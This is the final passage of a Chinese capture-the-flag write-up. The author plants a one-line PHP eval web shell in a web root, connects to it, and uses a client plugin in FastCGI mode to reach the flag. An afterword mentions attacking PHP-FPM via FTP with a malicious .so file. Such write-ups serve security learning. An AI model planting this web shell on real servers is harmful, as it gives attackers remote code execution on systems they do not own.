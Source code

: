 然后在/var/www/html目录下再写一个1.php

```
<?php eval($_POST[1]);?>
```

连接1.php

然后利用插件

选择fastcgi模式

![image-20211115155110502](images/21.png)

![image-20211115160837199](images/22.png)

再连接.antproxy.php,这样密码就是1了

![image-20211115161400674](images/23.png)

进入后就可以看到根目录下的flag了



后记:

这道题涉及到的知识很多,对于利用PHP-FPM去打FTP,FTP挂载恶意的so文件这是第一次做



参考链接

https://woshilnp.github.io/2021/06/15/%E8%93%9D%E5%B8%BD%E6%9D%AF2021-One-Pointer-PHP/#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0%EF%BC%9A

https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

https://blog.csdn.net/weixin_45669205/article/details/117061321
